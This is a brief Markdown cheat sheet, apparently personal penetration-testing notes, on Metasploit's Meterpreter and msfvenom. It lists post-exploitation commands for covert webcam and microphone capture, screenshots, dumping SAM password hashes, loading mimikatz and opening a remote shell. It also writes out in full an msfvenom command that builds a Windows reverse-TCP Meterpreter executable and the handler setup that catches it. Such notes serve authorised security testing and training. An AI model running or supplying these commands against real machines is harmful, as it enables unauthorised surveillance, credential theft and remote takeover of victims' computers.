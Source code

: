 			Meterpreter
### Webcam
- `record_mic`     Record audio from the default microphone for X seconds
- `webcam_chat`    Start a video chat
- `webcam_list`    List webcams
- `webcam_snap`    Take a snapshot from the specified webcam
- `webcam_stream`  Play a video stream from the specified webcam

### Misc

- `hashdump` will retrieve all hashed frm sam file
- `load kiwi` will in let us use mimikatz
- `screenshot` Grab a screenshot of the interactive desktop
- `shell`  get a shell on remote machine

# MSFvenoim
## Make shell
- get public ip `curl ifconfig.me`
- `msfvenom -p windows/meterpreter/reverse_tcp lhost=$IP lport=443 -f exe > service.exe`
## Getting a meterpreter shell
- `use exploit/multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
-  `set lhost $IP`
- `lport 443`
- `exploit`


https://www.hackingarticles.in/msfvenom-cheatsheet-windows-exploitation/